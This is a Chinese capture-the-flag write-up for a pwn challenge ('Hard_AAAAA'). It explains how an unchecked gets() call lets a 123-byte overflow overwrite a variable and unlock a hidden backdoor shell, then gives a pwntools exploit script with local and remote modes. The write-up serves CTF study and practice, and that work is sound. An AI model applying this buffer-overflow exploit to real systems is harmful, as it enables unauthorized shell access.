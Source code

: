 程序中存在后门`backdoor()`，开启后门的条件是变量`v5`等于`"0O0o"`，不难看出变量`s`其后便是变量`v5`，而`gets(&s)`由于没有检查`s`的长度，这将导致向`s`中输入过长的字符串时，覆盖掉变量`v5`的值，调试一下得到偏移量为123，所以只要输入`'a'*123+'0O0o'`即可启动后门，拿到shell。

### exp

虽然没啥写脚本的必要，但是我写了个[脚本](https://github.com/TaQini/ctf/tree/master/script)，用来自动生成exp模板，就当是展示一下效果吧：

```python
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './Hard_AAAAA'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

if len(sys.argv) == 1:
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    gdb.attach(p,cmd)

# info
backdoor = 0x8048636

# gadget
# elf, libc

# rop1
offset = 123
payload = 'A'*offset
payload += '0O0o\0O0'

ru("Let's 0O0o\\0O0!\n")
# debug('b *0x080485FD')
sl(payload)

# debug()
```
